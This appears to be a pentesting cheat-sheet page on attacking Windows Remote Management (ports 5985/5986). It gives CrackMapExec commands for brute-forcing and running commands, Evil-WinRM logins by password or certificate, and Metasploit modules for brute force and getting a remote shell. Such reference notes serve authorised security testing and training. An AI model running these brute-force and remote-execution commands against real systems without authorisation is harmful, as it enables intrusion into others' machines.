 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 5985,5986 -> WinRM

## CrackMapExec

is a powerful tool dubbed as _<mark style="color:green;">swiss army knife</mark>_ for pentesting Windows/Active Directory environments.

```bash
# Bruteforce WinRM creds
crackmapexec winrm $IP -u Administrator -p /wordlists/passwords.txt

# Execute command with AUTHENTICATION
crackmapexec winrm $IP -u Administrator -p password123 -x "whoami"
```

## Evil-WinRM

is a tool that was developed using Ruby. The main purpose of this tool is that an attacker can use Powershell to interact with the target through WinRM protocol.

```bash
# Login with AUTHENTICATION
evil-winrm -i $IP -u Administrator -p password123

# Login with CERTIFICATES / SSL
evil-winrm -S -c pub.key -k decrypted_priv.key -i $IP
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```bash
# Checking AUTHENTICATION methods
auxiliary/scanner/winrm/winrm_auth_methods

# Running cmd with AUTHENTICATION
auxiliary/scanner/winrm/winrm_cmd

# brute-force
auxiliary/scanner/winrm/winrm_login

# RCE (get the shell/meterpreter) AUTHENTICATION
# if you can't run it [BUG]; make sure to (set FORCE_VBS true)
exploit/windows/winrm/winrm_script_exec
```
